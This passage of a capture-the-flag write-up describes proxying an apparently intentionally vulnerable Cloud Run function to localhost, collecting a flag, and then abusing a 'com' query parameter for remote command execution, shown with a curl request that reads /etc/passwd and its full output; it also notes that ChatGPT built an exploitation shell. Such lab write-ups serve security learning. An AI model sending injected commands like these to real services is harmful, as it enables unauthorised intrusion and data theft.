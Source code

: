 🚩

## Flag 07

I discovered the [`gcloud run services proxy`](https://cloud.google.com/sdk/gcloud/reference/run/services/proxy) command, which let me proxy the running function to `localhost`:

```console
[MacBook-Pro ~]$ gcloud run services proxy cloudfunction1-hf2025 --port 8080
Proxying to Cloud Run service [cloudfunction1-hf2025] in project [aisaas-project-474522] region [northamerica-northeast1]
http://127.0.0.1:8080/ proxies to https://cloudfunction1-hf2025-6htansbyrq-nn.a.run.app/
```

From there:

```console
$ curl http://127.0.0.1:8080/
{"status": "success", "message": "Welcome to MySuperAISaaS Cloud Function", "flag": "Flag-7 : HF-280b69759b56048c6f0799a4ceb2676a", "hint": "Try the 'local' endpoint with a 'com' parameter for tests and diagnostics"}
```

🚩

## Flag 08

Following the hint from the last flag, we find an endpoint that allows remote code execution:

```console
$ curl http://127.0.0.1:8080/?com=cat%20%2Fetc%2Fpasswd
HTTP/1.1 200 OK
Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000
Content-Length: 982
Content-Type: application/json
Date: Fri, 17 Oct 2025 04:45:05 GMT
Server: Google Frontend
X-Cloud-Trace-Context: 199b5c8733e8baf891b1bf9e9f276c9c
Connection: close

{"status": "success", "output": "root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/www-data-home:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\n"}
```

I had ChatGPT build a small shell to make it easier to exploit this endpoint (included in the repository as `shell.py`).
